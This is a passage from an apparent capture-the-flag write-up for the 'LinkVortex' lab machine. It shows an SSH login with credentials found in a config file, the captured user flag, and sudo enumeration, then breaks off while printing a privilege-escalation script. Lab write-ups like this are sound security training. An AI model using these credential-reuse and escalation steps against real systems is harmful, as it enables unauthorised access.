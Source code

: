 ```bash
      "port": 587,
      "auth": {
        "user": "bob@linkvortex.htb",
        "pass": "fibber-talented-worth"
        }
      }
    }
}
```

We found the credentials for `bob`. Lets try if `ssh` works.

```bash
❯ ssh bob@linkvortex.htb
The authenticity of host 'linkvortex.htb (10.10.11.47)' can't be established.
ED25519 key fingerprint is SHA256:vrkQDvTUj3pAJVT+1luldO6EvxgySHoV6DPCcat0WkI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'linkvortex.htb' (ED25519) to the list of known hosts.
bob@linkvortex.htb's password: fibber-talented-worth
Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 6.5.0-27-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Tue Dec  3 11:41:50 2024 from 10.10.14.62
bob@linkvortex:~$ cat user.txt 
33d559f112960e0c2b623909b7f30300
```

# Privilege Escalation

Lets check what sudo privileges does `bob` user have.

```bash
bob@linkvortex:~$ sudo -l
Matching Defaults entries for bob on linkvortex:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty, env_keep+=CHECK_CONTENT

User bob may run the following commands on linkvortex:
    (ALL) NOPASSWD: /usr/bin/bash /opt/ghost/clean_symlink.sh *.png
```

`bob` can run `/opt/ghost/clean_symlink.sh` as `sudo`. Lets check the code for `clean_symlink.sh`.

```bash
bob@linkvortex:~$ cat /opt/ghost/clean_symlink.sh
#!/bin/bash

QUAR_DIR="/var/quarantined"

if [ -z $CHECK_CONTENT ];then
  CHECK_CONTENT=false
fi

LINK=$1

if ! [[ "$LINK" =~ \.png$ ]]; then
```